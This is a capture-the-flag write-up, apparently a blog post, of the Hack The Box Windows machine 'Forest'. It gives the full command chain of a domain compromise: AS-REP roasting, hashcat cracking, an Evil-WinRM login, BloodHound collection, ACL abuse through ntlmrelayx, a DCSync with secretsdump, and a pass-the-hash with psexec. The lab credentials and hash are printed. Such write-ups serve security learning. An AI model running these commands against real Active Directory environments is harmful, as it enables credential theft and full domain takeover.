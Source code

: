 ```yaml
---
layout: default
---
```

## Forest
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/7dedecb452597150647e73c2dd6c24c7.png)

This is likely the most involved "Easy" Windows machine I've done so far but it was a lot of fun. A sample list of concepts before we get into it:
+ Kerberoasting
+ Bloodhounding
+ NTLM Relay
+ DCSync
+ Pass the Hash

Let's get started. As usual, nmap first

```bash
nmap -T4 -p- -A -oN nmap.results forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/nmap.png)

Lots going on here. Notably SMB (445), Kerberos (88), LDAP/S (389/636), and WinRM (5985). I launch enum4linux to start pulling back information

```bash
enum4linux -a forest.htb
```

I was given a lot of information from this. First, we can see that the domain name is "HTB".

![](https://yaboygmoney.github.io/htb/images/forest/domainName.png)

In addition to that, I get a list of usernames (ones of particular interest are highlighted).

![](https://yaboygmoney.github.io/htb/images/forest/userList.png)

With the given usernames discovered, I put them into a wordlist by copying the output above into users.txt and then running

```bash
cat users.txt | awk -F ":" '{print $5}' | awk -F " " '{print $1}' > userlist.txt
```

The result is a cleaned up list

![](https://yaboygmoney.github.io/htb/images/forest/userlist2.png)

Then I started to try and ASREPRoast my userlist. [This article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/) has been really beneficial in learning how Kerberos actually works and how to get it to help my activities. The syntax is as follows:

```bash
./GetNPUsers.py [The Domain Name]/ -usersfile [filename of your userlist] -no-pass -dc-ip [the IP address of the DC]
```

So for this situation, the command is

```bash
./GetNPUsers.py HTB/ -usersfile userlist.txt -no-pass -dc-ip forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/roasted.png)

It was a bunch of nothing until the very last user: svc-alfresco.

Because Kerberos pre-authentication was disabled for this account, we are able to send an AS_REQ (request) for a ticket granting ticket on behalf of this user to the Key Distribution Center (the DC) and get the AS_REP (response) that has enough encrypted data for hashcat to get us the password.

I took the hash kicked out from kerberoasting and ran it through hashcat against the rockyou wordlist

```powershell
hashcat.exe -a -0 -m 18200 hash.txt rockyou.txt -O -o heresthepw.txt
type heresthepw.txt
```

![](https://yaboygmoney.github.io/htb/images/forest/hashcat.png)

![](https://yaboygmoney.github.io/htb/images/forest/cracked.png)

With a username and password in hand, I spun up [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and logged in

```bash
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

User flag was hanging out on svc-alfresco's desktop

![](https://yaboygmoney.github.io/htb/images/forest/user.png)

Now it's time to find our way to administrator. The quickest way to do that in an AD environment is to unleash the hound. I downloaded the [SharpHound.ps1 ingestor](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1) to my local machine and then utilized Evil-WinRM's upload feature to get it onto the machine.

```powershell
upload SharpHound.ps1
Import-Module ./SharpHound.ps1
Invoke-Bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

A few seconds later I had a zip file containing information about the domain.

![](https://yaboygmoney.github.io/htb/images/forest/hounded.png)

Then just pull back the zip with Evil-WinRM's download utility

```powershell
download 20200320080006_BloodHound.zip
```

Now I need to get Bloodhound ready to ingest this data. Step 1 of that is to spin up neo4j. Step 2 is to spin up bloodhound's UI.

```bash
neo4j console
bloodhound
```

Then it's as easy as dragging and dropping your zip file into the bloodhound interface. After a few seconds, Bloodhound is ready to show us the way. I typically click on "Queries" and then select "Find Shortest Path to Domain Admins". The result is something like

![](https://yaboygmoney.github.io/htb/images/forest/path.png)

The path shows that from my current svc-alfresco account, I can use my membership of the group "Service Accounts". Every member of "Service Accounts" inherits permission of the "Privileged IT Accounts" group. Every member of the "Privileged IT Accounts Group" is also a member of "Account Operators". "Account Operators" enjoy all of the permissions associated with "Exchange Windows Permissions", which is essentially [all permissions](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack). 

> The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers. When authentication is relayed to LDAP, objects in the directory can be modified to grant higher levels of access, such as performing DCSync to replicate users’ hashed passwords in Active Directory. An attacker with those hashed passwords can impersonate any users on the network and authenticate to any service using NTLM or Kerberos authentication.

Spoiler alert: that's exactly what I'm about to do.

In a shared environment, it's best to create a new user, because we are going to promote that user and we don't want to spoil the learning environment by just making svc-alfresco all powerful right off the bat.

```powershell
$pass = ConvertTo-SecureString "password" -AsPlainText -Force
New-ADUser ybgm -AccountPassword $pass -Enabled $True
```

I'm also going to use svc-alfresco's permissions to add my new user to the "Exchange Windows Permissions" group.

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members ybgm
```

I also need to run [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the credentials and escalate my user to be in a position to fire off a DCSync.

```bash
./ntlmrelayx.py -t ldap://forest.htb --escalate-user ybgm
```

![](https://yaboygmoney.github.io/htb/images/forest/server.png)

This command spins up an HTTP server. Once I navigate to my localhost, the credentials will be requested and then relayed via LDAP to the DC.

![](https://yaboygmoney.github.io/htb/images/forest/relay.png)

Back on the terminal, we can see that the credentials are relayed via LDAP. Because I added my user 'ybgm' to the Exhange Windows Permissions group, the user has "Modifying domain ACL skills". By leveraging this, my user is given the replicate changes ability needed to perform a DCSync.

![](https://yaboygmoney.github.io/htb/images/forest/worked.png)

Now I can run [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync and pull back hashes.

```bash
./secretsdump.py htb.local/ybgm:password@forest.htb -just-dc
```

![](https://yaboygmoney.github.io/htb/images/forest/secretsdump.png)

With the admin hash, I can use [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) to get an administrative shell on the Domain Controller.

```bash
./psexec.py htb.local/administrator@forest.htb 'powershell.exe' -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![](https://yaboygmoney.github.io/htb/images/forest/root.png)

I want to end with a shoutout to the user [SmoZy](https://www.hackthebox.eu/profile/134223) who helped me get past a syntax hurdle I had with Bloodhound that allowed me to push forward. The HTB community is awesome and be sure to help teach when you can!

#### Keep trying.
